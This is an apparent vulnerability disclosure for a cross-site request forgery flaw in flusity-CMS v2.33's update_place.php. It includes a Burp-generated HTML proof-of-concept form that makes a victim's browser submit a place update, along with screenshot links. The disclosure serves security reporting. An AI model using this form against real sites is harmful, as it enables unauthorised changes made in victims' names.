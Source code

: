 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/update_place.php

![1](https://github.com/Icycu123/cms/assets/89123126/78cc4a43-72bd-4144-9cd9-ba94c993ff4d)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/update_place.php" method="POST">
      <input type="hidden" name="action" value="update&#95;place" />
      <input type="hidden" name="place&#95;id" value="19" />
      <input type="hidden" name="place&#95;name" value="123235" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```

![2](https://github.com/Icycu123/cms/assets/89123126/9c2f0bd0-a2fa-4000-876c-66a53d67ceec)


Successed

![3](https://github.com/Icycu123/cms/assets/89123126/958954bc-521b-4d0e-b98e-bd3520488e8f)
